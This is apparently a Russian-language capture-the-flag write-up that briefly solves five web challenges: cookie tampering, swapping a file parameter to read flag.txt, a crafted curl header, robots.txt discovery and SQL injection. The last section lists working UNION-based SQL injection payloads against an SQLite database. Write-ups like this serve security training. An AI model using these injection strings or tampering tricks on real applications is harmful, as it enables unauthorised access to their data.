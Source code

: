 ![image](https://github.com/user-attachments/assets/995f0e4a-dcfa-4e0e-9429-b88bc4acd2d7)

#### 1. Cookie Lover

Декодируем куки, меняем **false** на **true** и получаем флаг.

---

#### 2. Смешной мем

Через код страницы открываем мем, меняем параметр **file** на **flag.txt**.

---

#### 3. Заголовки

Через **curl** отправляем требуемый запрос с заголовком, подсказка в **HTML** комментарии.

---

#### 4. Трансформеры

В **robots.txt** находим **HTML** страничку с флагом.

---

#### 5. Тайная сила

Используем **SQL инъекцию**, решить можно было, например, так:

```
%' order by 6; --

%' order by 5; --

%' AND 1=0 UNION SELECT name, sql, 3, 4, 5 FROM sqlite_master; --

%' and 1=0 UNION SELECT flag, 2, 3, 4, 5 FROM the_flag_is_in_here; --

%' and 1=0 UNION SELECT name, secret_power, 3, 4, 5 FROM secret_powers where name='Tony Stark'; --
```
